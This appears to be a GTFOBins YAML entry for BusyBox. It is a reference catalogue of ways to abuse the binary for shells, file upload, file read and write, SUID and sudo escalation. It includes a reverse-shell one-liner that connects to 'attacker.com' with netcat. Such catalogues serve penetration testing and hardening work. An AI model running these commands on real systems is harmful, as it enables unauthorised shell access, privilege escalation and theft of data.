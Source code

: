 ```yaml
---
description: BusyBox may contain many UNIX utilities, run `busybox --list-full` to check what GTFOBins binaries are supported. Here some example.
functions:
  shell:
    - code: busybox sh
  file-upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=12345
        busybox httpd -f -p $LPORT -h .
  file-write:
    - code: |
        LFILE=file_to_write
        busybox sh -c 'echo "DATA" > $LFILE'
  file-read:
    - code: |
        LFILE=file_to_read
        ./busybox cat "$LFILE"
  suid:
    - description: It may drop the SUID privileges depending on the compilation flags and the runtime configuration.
      code: "./busybox sh"
  sudo:
    - code: sudo busybox sh
  reverse-shell:
    - description: Run `nc -lvp 4444` on the attacker box to receive the shell. 
      code: |
        RHOST=attacker.com
        RPORT=4444
        busybox nc $RHOST $RPORT -e /bin/sh
---
```

